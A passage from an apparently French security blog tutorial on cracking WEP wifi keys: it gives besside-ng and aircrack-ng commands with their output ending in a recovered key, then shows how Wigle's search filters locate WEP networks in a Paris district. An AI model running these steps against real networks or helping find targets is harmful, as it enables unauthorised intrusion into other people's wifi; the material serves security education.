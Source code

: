 La syntaxe est la suivante: `besside-ng -b <BSSID> -c <canal> wlan0mon`.
Le BSSID est affiché dans la liste des points d'accès et le canal correspond au `CH`.
Dans ce cas, la commande sera `besside-ng -b VV:II:CC:TT:IM:EE -c 11 wlan0mon`.

Le résultat sera alors :
```shell
[18:39:34] Let's ride
[18:39:34] Appending to wpa.cap
[18:39:34] Appending to wep.cap
[18:39:34] Logging to besside.log
[18:39:35] Got replayable packet for VV:II:CC:TT:IM:EE [len 104]
[18:39:36] Associated to VV:II:CC:TT:IM:EE AID [3]
[18:39:36] | Attacking VV:II:CC:TT:IM:EE WEP - FLOOD - 478 IVs rate 101 [201 PPS out] len 104
...
...
```
La commande doit alors être la suivante pour cracker les fichiers .cap : `sudo aircrack-ng ./wep.cap`
Le résultat est alors le suivant :
```shell
Aircrack-ng 1.6
[00:00:00] 17876 keys tested (got 20212 IVs)
KEY FOUND! [ jetaime ]

Master Key     : 31 B1 AC 4F DD AA BB BB CC DD EE FF GG HH AA 21
31 B1 AC 4F DD AA BB BB CC DD EE FF GG HH AA 21

Transient Key  : 31 B1 AC 4F DD AA BB BB CC DD EE FF GG HH AA 21
51 7B 51 7B 51 7B 51 7B 51 7B 51 7B 51 7B 51 7B
AF E8 20 52 2E 2D CD AF E8 20 52 2E 2D CD AA CC
84 ED FF 84 ED FF ED FF 75 ED FF 75 32 75 32 AA

EAPOL HMAC     : 24 48 10 9A 24 48 24 48 48 24 48 48 24 48 48 24
```
Le mot de passe est alors cracké en quelques secondes/minutes selon le cas, ici : `jetaime`

### 2.2 - Comment trouver des points d'accès sécurisés par une clé WEP
Un pirate pourrait avoir envie de rechercher les réseaux wifi vulnérables autour de lui, c'est possible grâce à Wigle qui référence tous les réseaux wifi dans le monde. J'en avais déjà parlé dans mon article sur la <a href="https://clement-bouder.fr/osint,geolocalisation,powershell/2020/11/18/Comment-geolocaliser-un-pc-grace-a-powershell.html" target="https://clement-bouder.fr/osint,geolocalisation,powershell/2020/11/18/Comment-geolocaliser-un-pc-grace-a-powershell.html">géolocalisation d'un PC via PowerShell.</a>
La création d'un compte gratuit est nécessaire pour avoir accès à la [page de recherche avancée](https://wigle.net/search).
Il est alors possible de filtrer par ville, protocole de sécurité et par date de dernier référencement. Cette fonctionnalité est intéressante pour s'assurer de la fraîcheur des données et être certain que le réseau est toujours fonctionnel. Ici, une recherche est effectuée avec les critères suivants :
- Ville de Paris
- Arrondissement : 75008
- Date de dernière observation : Cette année (01/01/2020)
- Protocole de sécuisation : WEP
